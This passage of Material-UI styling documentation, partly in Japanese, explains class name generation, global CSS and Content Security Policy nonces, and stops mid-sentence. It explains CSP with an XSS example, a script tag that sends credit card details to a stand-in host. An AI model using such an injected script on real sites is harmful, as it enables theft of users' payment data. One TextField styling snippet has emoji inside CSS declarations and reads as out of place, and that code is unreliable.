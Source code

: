 names\n\nThe class names are generated by [the class name generator](/styles/api/#creategenerateclassname-options-class-name-generator).\n\n### Default\n\nBy default, the class names generated by `@material-ui/core/styles` are **non-deterministic**; you can't rely on them to stay the same. Let's take the following style as an example:\n\n```js\nconst useStyles = makeStyles({\n  root: {\n    opacity: 1,\n  },\n});\n```\n\nThis will generate a class name such as `makeStyles-root-123`.\n\nYou have to use the `classes` prop of a component to override the styles. The non-deterministic nature of the class names enables style isolation.\n\n- In **development**, the class name is: `.makeStyles-root-123`, following this logic:\n\n```js\nconst sheetName = 'makeStyles';\nconst ruleName = 'root';\nconst identifier = 123;\n\nconst className = `${sheetName}-${ruleName}-${identifier}`;\n```\n\n- In **production**, the class name is: `.jss123`, following this logic:\n\n```js\nconst productionPrefix = 'jss';\nconst identifier = 123;\n\nconst className = `${productionPrefix}-${identifier}`;\n```\n\n### With `@material-ui/core`\n\nThe generated class names of the `@material-ui/core` components behave differently. When the following conditions are met, the class names are **deterministic**:\n\n- Only one theme provider is used (**No theme nesting**)\n- The style sheet has a name that starts with `Mui` (all Material-UI components).\n- The `disableGlobal` option of the [class name generator](/styles/api/#creategenerateclassname-options-class-name-generator) is `false` (the default).\n\nThese conditions are met with the most common use cases of `@material-ui/core`. For instance, this style sheet:\n\n```jsx\nconst useStyles = makeStyles({\n  root: { /* … */ },\n  label: { /* … */ },\n  outlined: {\n    /* … */\n    '&$disabled': { /* … */ },\n  },\n  outlinedPrimary: {\n    /* … */\n    '&:hover': { /* … */ },\n  },\n  disabled: {},\n}, { name: 'MuiButton' });\n```\n\ngenerates the following class names that you can override:\n\n```css\n.MuiButton-root { /* … */ }\n.MuiButton-label { /* … */ }\n.MuiButton-outlined { /* … */ }\n.MuiButton-outlined.Mui-disabled { /* … */ }\n.MuiButton-outlinedPrimary: { /* … */ }\n.MuiButton-outlinedPrimary:hover { /* … */ }\n```\n\n*This is a simplification of the `@material-ui/core/Button` component's style sheet.*\n\nCustomization of the TextField can be cumbersome with the [`classes` API](#overriding-styles-classes-prop), where you have to define the the classes prop. It's easier to use the default values, as described above. For example:\n\n```jsx\nimport styled from 'styled-components';\nimport { TextField } from '@material-ui/core';\n\nconst StyledTextField = styled(TextField)`\n  label.focused {\n    color: green; 💚\n  }\n  .MuiOutlinedInput-root {\n    fieldset {\n      border-color: red; 💔\n    }\n    &:hover fieldset {\n      border-color: yellow; 💛\n    }\n    &.Mui-focused fieldset {\n      border-color: green; 💚\n    }\n  }\n`;\n```\n\n{{\"demo\": \"pages/styles/advanced/GlobalClassName.js\"}}\n\n## Global CSS\n\n### `jss-plugin-global`\n\nThe [`jss-plugin-global`](#jss-plugins) plugin is installed in the default preset. You can use it to define global class names.\n\n{{\"demo\": \"pages/styles/advanced/GlobalCss.js\"}}\n\n### ハイブリッド\n\nYou can also combine JSS generated class names with global ones.\n\n{{\"demo\": \"pages/styles/advanced/HybridGlobalCss.js\"}}\n\n## CSS prefixes\n\nJSS uses feature detection to apply the correct prefixes. [Don't be surprised](https://github.com/Foso/material-ui/issues/9293) if you can't see a specific prefix in the latest version of Chrome. Your browser probably doesn't need it.\n\n## コンテンツセキュリティポリシー（CSP）\n\n### What is CSP and why is it useful?\n\nBasically, CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:\n\n```html\n<script>\n  sendCreditCardDetails('https://hostile.example');\n</script>\n```\n\nThis vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.\n\nYou can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).\n\n### CSPの実装方法\n\nIn order to use CSP with Material-UI (and JSS), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request. JSS has a [great tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) on how to achieve this with Express and React Helmet. For a basic rundown, continue reading.\n\nA CSP nonce is a Base 64 encoded string. You can generate one like this:\n\n```js\nimport uuidv4 from 'uuid/v4';\n\nconst nonce = new Buffer(uuidv4()).toString('base64');\n```\n\nIt is very important that you use UUID version 4, as it generates an **unpredictable** string. You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:\n\n```js\nheader('Content-Security-Policy')\n  .set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);\n```\n\nIf you are using Server-Side Rendering (SSR), you should pass the nonce in the `<style>` tag on the server.\n\n```jsx\n<style\n  id=\"jss-server-side\"\n  nonce={nonce}\n  dangerouslySetInnerHTML={{ __html: sheets.toString() }}\n/>\n```\n\nThen, you must pass this nonce to JSS so it can add it to subsequent `<style>` tags.\n\nThe way that you do this is by passing a